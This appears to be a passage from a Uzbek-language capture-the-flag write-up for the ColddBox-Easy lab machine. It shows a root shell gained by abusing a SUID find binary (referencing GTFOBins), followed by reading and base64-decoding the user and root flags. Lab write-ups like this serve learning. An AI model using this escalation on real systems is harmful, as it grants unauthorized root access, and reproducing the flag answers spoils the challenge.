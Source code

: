 /usr/bin/find dasturidan eskalatsiya uchun foydalansak bo'lar ekan.

Buni qanday qilishni bu yerdan o'rganishingiz mumkin.

Link: https://gtfobins.github.io/gtfobins/find/#suid

Jarayon:

```
www-data@ColddBox-Easy:/var/www/html/hidden$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
#

```

**user.txt**'ni qo'lga kiritish:

```
# whoami
whoami
root
# cd /home
cd /home
# ls
ls
c0ldd
# cd c0ldd
cd c0ldd
# ls
ls
user.txt
# cat user.txt
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

```

```
# cat user.txt | base64 -d
Felicidades, primer nivel conseguido!#
```

**root.txt**'ni qo'lga kiritish:

```
# cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

```

```
# cat root.txt | base64 -d
cat root.txt | base64 -d
¡Felicidades, máquina completada!#

```



# Nafas olar ekanman, men yana davom etaman...
